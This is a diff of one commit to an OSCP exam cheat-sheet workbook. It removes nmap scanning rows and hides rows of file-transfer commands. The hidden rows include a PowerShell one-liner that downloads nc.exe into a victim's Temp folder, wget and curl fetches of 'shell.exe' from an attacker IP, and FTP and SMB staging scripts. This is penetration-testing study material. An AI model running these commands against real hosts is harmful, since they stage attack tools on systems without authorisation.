

Before and after one commit to NurvX/OSCP-Cheatsheet, an Excel workbook: OSCP-checklist_v0.1.1.xlsm, sheet Commands, drawn as a sheet; only a part is shown, gaps mark what is left out; values as stored, in another font and other column widths than the file's, no borders; charts and pictures and table styles not drawn; ↵ is a line break in a cell; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
new

```diff
--- a/OSCP-checklist_v0.1.1.xlsm (sheet Commands)
+++ b/OSCP-checklist_v0.1.1.xlsm (sheet Commands)
-D2: 192.168.178.66
+D2: 192.168.178.70
-row 22: Recon | Linux / Windows | nmap | scan top 1000 tcp ports | nmap -Pn 192.168.178.66 |  | Additional -T4 flag can be added to improve speed but its intermittent which might end up delaying scan
-row 23: Recon | Linux / Windows | nmap | Full blown scan | nmap -sC -sV -O --open -p- -oA nmap/full 192.168.178.66
-row 24: Recon | Linux / Windows | nmap | top 50 | nmap -sV -O --top-ports 50 --open -oA nmap/initial 192.168.178.66
-row 25: Recon | Linux / Windows | nmap | scan 65535 tcp ports | nmap -p- -Pn 192.168.178.66 |  | Additional -T4 flag can be added to improve speed but its intermittent which might end up delaying scan
-row 26: File Transfer | windows | tftp | download-upload | Kali ↵ cp wget.exe /srv/atftpd ↵ /etc/init.d/atftpd restart ↵ cat /var/log/syslog | grep 192.168.178.66 ↵ victim ↵ tftp -i 192.168.178.65 get wget.exe ↵ tftp -i 192.168.178.65 put .txt |  | -I is for ip addresss
@@ row 27 hidden: File Transfer | Windows | ftp | download $wintools | python -m pyftpdlib -p 21 -w ↵ echo open 192.168.178.65 > ftp &echo user anonymous password >> ftp &echo binary >> ftp &echo get wget.exe >> ftp &echo bye >> ftp &ftp -n -v -s:ftp & wget.exe --recursive --no-parent http://192.168.178.65:1234/ @@
@@ row 28 hidden: File Transfer | Windows | powershell | download file - oneliner | powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.178.65:1234/nc.exe', 'C:\Users\hostname\AppData\Local\Temp\nc.exe') @@
@@ row 29 hidden: File Transfer | windows | wget | download $wintools | wget.exe http://192.168.178.65:1234/ --recursive --no-parent @@
@@ row 30 hidden: File Transfer | Windows | wget | download file | wget.exe -O shell.exe http://192.168.178.65:1234/ @@
@@ row 31 hidden: File Transfer | Linux | wget | download $lintools | wget --recursive --no-parent http://192.168.178.65:1337/ @@
@@ row 32 hidden: File Transfer | Linux | wget | download file | wget -O shell.exe http://192.168.178.65:1337/ @@
@@ row 33 hidden: File Transfer | Windows | curl | download file | curl.exe -O http://192.168.178.65:1234 @@
@@ row 34 hidden: File Transfer | Linux | curl | download file | curl -O http://192.168.178.65:1337 @@
@@ row 35 hidden: File Transfer | Windows | net | download-upload | copy c:\users\hostname\desktop\192.168.178.65\wpc-report.html \\192.168.178.65\windows\ @@
@@ row 36 hidden: File Transfer | Windows | net | download file | net use \\192.168.178.65\windows\ ↵ copy \\192.168.178.65\windows\wget.exe |  | Go back to using wget.exe @@
@@ row 37 hidden: File Transfer | Windows | net | download $wintools | \\192.168.178.65\windows\wget.exe --recursive --no-parent http://192.168.178.65:1234/ @@
@@ row 38 hidden: File Transfer | Windows | expand | download file | expand \\192.168.178.65\windows\wget.exe @@
@@ row 39 hidden: File Transfer | Windows | expand | download $wintools | expand \\192.168.178.65\windows\wget.exe & wget.exe --recursive --no-parent http://192.168.178.65:1234/ @@
```
Also changed, not shown: 111 removed rows, 135 hidden or unhidden rows and 5 edited cells elsewhere in this sheet, hidden cells, charts or pictures.
